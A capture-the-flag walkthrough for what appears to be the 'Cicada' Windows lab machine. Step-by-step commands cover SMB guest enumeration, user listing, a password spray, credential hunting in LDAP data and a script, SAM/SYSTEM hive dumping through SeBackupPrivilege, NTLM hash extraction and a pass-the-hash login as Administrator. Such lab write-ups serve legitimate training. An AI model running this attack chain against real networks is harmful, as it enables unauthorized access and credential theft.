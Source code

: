 ```yaml
---
title: Cicada
date: 2025-06-15
tags: [easy, windows]
---
```



### Task 1

What is the name of the non-default SMB share that is readable with guest access on Cicada?

Running ``smbclient -N -L //<target_ip>`` to connect to the share server without providing a password and list the shares we see two non-default shares named ``DEV`` and ``HR``. 

![alt text](image-ci-1.png)

Next, to see which one is readable as a guest, we will try to connect to those specific shares. Running ``smbclient -N //<target_ip>/<share_name>`` we see the one we have access to read is the ``HR`` share.

![alt text](image-ci-2.png)

### Task 2

What is the name of the file found in the HR share? 

Seen in the previous task, from listing the contents of the HR share, the file name is "Notice from HR.txt".

### Task 3

Which user account is still using the company default password?

To see the contents of the file found, we can transfer it to the host by running ``get "Notice from HR``.txt". Opening it, we see a welcoming message to a new hire with the default password but it does not give a username

![alt text](image-ci-3.png)

Then, we can try to enumerate domain users on the target IP and save them to a file by running ``lookupsid.py anonymous@<target_ip> > lookupsid_output.txt``. Then, we save the usernames cleanly we run ``grep '(SidTypeUser)' lookupsid_output.txt | awk -F '\\' '{print $2}' | cut -d' ' -f1 > users.txt``.  Finally using the password found in the file, we can perform a password spray attack by running ``netexec smb <target_ip> -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`` and find the username to be michael.wrightson.

![alt text](image-ci-5.png)
### Task 4

Which user has left their password in Active Directory metadata?

We dump the AD metadata using ``ldapdomaindump -u cicada.htb\\michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' <target_ip>``. We then try the command ``grep -iE 'pass|key|desc|comment' domain_users.json`` to look for password in the file matching any lines that contain the mentioned keywords. 

![alt text](image-ci-6.png)

After finding the password we can try to connect with it using the users.txt file from the previous task as ``netexec smb <target_ip> -u users.txt -p 'aRt$Lp#7t*VQ!3'``.

![alt text](image-ci-7.png)

<!--truncate--> 

### Task 5

What is the name of the PowerShell script located in the DEV share?

Connecting to the DEV share with the credential found in the previous task by running ``smbclient //<target_ip>/DEV -U 'cicada.htb\\david.orelious%aRt$Lp#7t*VQ!3'`` we find the Powershell script after listing the contents.

![alt text](image-ci-8.png)

### Task 6

What is the emily.oscars user's password?

We get the file in our host by running ``get Backup_script.ps1`` and after exiting smb we open the file and locate the user's password.

![alt text](image-ci-9.png)

### Task 7

Submit the flag located in the emily.oscars user's home directory.

We will try to connect to the default share with the credential found for emily.oscars by running ``smbclient //<target_ip>/C$ -U 'cicada.htb\\emily.oscars%Q!3@Lp#M6b*7t*Vt'``. We then navigate to here home directory with the relative path ``\Users\emily.oscars.CICADA\DESKTOP\`` and run ``get user.txt`` to get the user flag and open it with ``cat`` on the host machine.

### Task 8

What dangerous privilege does the emily.oscar user have associated with their account?

First we connect with the credentials for the emily user ``evil-winrm -i <host_ip> -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'``. Then, we run ``whoami /priv`` to display the privieges that the user holds on the system and we find that the ``SeBackupPrivilege`` is enabled for the current user which permits reading any file. 

![alt text](image-ci-10.png)

### Task 9 

What is the Administrator user's NTLM hash?

Keeping the evil-winrm session active, we will save the Windows regitstry hives by running the following: 

```
reg save HKLM\SAM C:\Users\emily.oscars\Documents\sam.save
reg save HKLM\SYSTEM C:\Users\emily.oscars\Documents\system.save
``` 

We download both files to the local machine by :
```
download sam.save
download system.save
```

Then, to extract the NTLM hashes we run ``secretsdump.py -system system.save -sam sam.save LOCAL``. This command decrypts the SAM file using the SYSTEM hive and displays local user account hashes. The NTLM hash is the third colon-separated field in the output.

![alt text](image-ci-11.png)

### Task 10

Submit the flag located on the Administrator user's Desktop.

We can now perrform a Pass-The-Hash attack to impersonate the Administrator using the hash we found in the previous task. Since evil-winfrm supports PtH directly we run ``evil-winrm -i <target_ip> -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341`` and running ``whoami`` we validate we are "cicada\administrator". Navigating to the Desktop we get the flag by running ``cat root.txt``.